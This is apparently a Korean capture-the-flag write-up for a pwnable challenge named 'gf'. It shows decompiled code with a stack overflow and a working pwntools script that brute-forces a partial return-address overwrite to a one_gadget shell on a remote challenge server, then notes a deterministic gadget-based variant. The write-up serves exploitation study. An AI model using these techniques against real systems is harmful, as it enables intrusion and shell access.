 pwnable은 1문제였고, 풀었다.

# gf

```C
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char dest[16]; // [rsp+10h] [rbp-10h] BYREF

  sub_4011A5(a1, a2, a3);
  read(0, &unk_404060, 0xBCuLL);
  memcpy(dest, &unk_404060, 0xBBuLL);
  return 1LL;
}
```

스택에 0xBB 만큼 입력할 수 있다. 그런데 이러면 libc 하위 3바이트를 overwrite 하는 꼴이다. 원가젯의 하위 1.5바이트는 고정적이므로, 나머지 1.5바이트 브루트포스, 즉 1/4096 브루트포스로 해결할 수 있다. 쓰레드를 안 쓰고 로컬에서는 10분, 리모트에서는 30분 걸렸다.

## Exploit

```python
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

bss = 0x404510
ret = 0x40101a
rax_0 = 0x40113F

'''
0xebd38 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  r12 == NULL || {"/bin/sh", r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
'''
'''
0xebd3f execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  rax == NULL || {rax, r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
'''
i = 0

while True:
  i += 1
  print(i)
  if i == 1000 : exit()
  try:
    p = remote('43.201.60.155', 1111)
    payload = b'a' * 0x10 + p64(bss) + p64(rax_0) + p64(ret) * 19 + p64(0x80bd3f)[:3]
    p.send(payload)
    p.sendline(b'cat flag')
    msg = p.recvline()
    print(msg)
    if b'*** stack' in msg or b'free()' in msg or b'int_mallinfo(): unaligned fastbin chunk detected' in msg or b'____strtod_l_internal: Assertion' in msg or b' __gconv_transform_ascii_internal:' in msg or b' _mid_memalign: Assertion ' in msg or b'hunix_create: out of ' in msg or b'realloc(): invalid pointe' in msg:
        p.close()
        continue
    p.interactive()
    p.close()
  except:
    p.close()
```

---

rbx control을 쓰면 확정적으로 익스 가능하다고 하다. bss로 rbp를 옮기고, 다른 함수를 사용하면서 남은 libc 주소를 이용하는 아이디어로,

```bash
0x000000000040117c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
```

가젯으로 one\_gadget을 만들 수 있다.